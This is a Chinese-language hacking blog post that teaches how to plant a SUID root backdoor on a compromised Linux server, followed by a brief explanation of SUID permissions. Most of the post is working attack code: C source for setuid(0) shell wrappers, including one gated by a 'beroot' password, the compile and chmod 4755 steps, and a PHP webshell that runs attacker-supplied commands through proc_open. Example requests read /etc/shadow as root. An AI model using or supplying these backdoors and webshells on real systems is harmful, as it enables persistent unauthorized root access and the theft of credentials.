 ```yaml
---
layout: post
title: suid后门（suid shell）
date: 2018-06-26 23:30:00
tags: 后门 suid
categories: hack 
author: PythonPig
---
```

* content
{:toc}
suid shell 是可以以shell所有者权限运行的shell。 

#### \#0x00 suid shell生成

suid shell简单代码：  
```c
#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
```




切换至root下，执行：  
gcc bashwrap.c -o bashwrap  
chmod 4755 bashwrap  （赋予suid权限）  

此时bashwrap就是一个suid shell  

#### \#0x01 suid shell调用（PHP环境）

把suid shell隐藏在目标系统上(假设放在/tmp/目录下)，通过web的方式调用（假设webshell权限较低，希望使用suid shell执行root命令），假如web环境是PHP，在web目录下上传如下PHP文件：  
```php 
<?php
if(isset($_GET['path']) && isset($_GET['cmd'])){
 $path = $_GET['path'];
 $cmd = $_GET['cmd'];
 $descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("pipe", "w")
 );
 $process = proc_open($path, $descriptorspec, $pipes);
 if (is_resource($process)) {
  fwrite($pipes[0],$cmd);
  fclose($pipes[0]);
  echo stream_get_contents($pipes[1]);
  echo stream_get_contents($pipes[2]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  $return_value = proc_close($process);
 }  
}
>
```  

访问http://x.x.x.x/exploit.php?path=/tmp/bashwrap&cmd=id即可以root的权限执行命令id  

注：  
1、webshell的权限较低，但是已经完成了提权，可以使用上述方式留下root后门；  
2、利用webshell提权时，把exp上传至/tmp/exp，访问http://x.x.x.x/exploit.php?path=/tmp/exp&cmd=id，若提权成功，则会以root权限执行命令id。  

#### \#0x02 suid shell调用（非PHP环境）  

在非PHP环境下使用如下代码生成suid shell
```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[256]={0};
    if(strcmp(argv[1],"beroot") == 0)
    {
        setuid(0);
        int i;
        for(i = 2; i < argc; i ++){
            strcat(buf, argv[i]);
            strcat(buf," ");
        }
        execl("/bin/sh","sh","-c", buf,(char *)0);
        return 0;
    }
    else
    {
            printf("%s\n","Execution Error!");
            return -1;
    }
    return 0;
}
``` 

然后在低权限的web shell命令执行处执行：./bashwrap beroot cat /etc/shadow即可以root权限执行cat /etc/shadow  

#### \#0x03 suid介绍

当s这个标志出现在文件所有者的x权限上时，此时就被称为Set UID，简程SUID。  
例如执行ls -l /bin/su可以看到   

执行ls -l /usr/bin/passwd 可以看到     

在文件所有者的x权限上都出现了s权限，那么这个特殊权限的特殊性的作用是什么呢？  
'''
1、SUID权限仅对二进制程序有效。  
2、执行者对于该程序需要具有x的可执行权限。 
3、本权限仅在执行该程序的过程中有效。  
4、执行者将具有该程序拥有者的权限。  
'''  

SUID的关键作用体现在第四句，SUID的目的就是：让本来没有相应权限的用户运行这个程序时，可以访问他没有权限访问的资源。  
#### \#0x04 参考
[深入Linux文件权限 SUID/SGID/SBIT](https://blog.csdn.net/imkelt/article/details/53054309) 
文章中部分源代码在前辈代码的基础上略做修改，由于时间久远，现在已经不知道代码摘自何处，若作者看到，请速联系（联系方式见about标签）


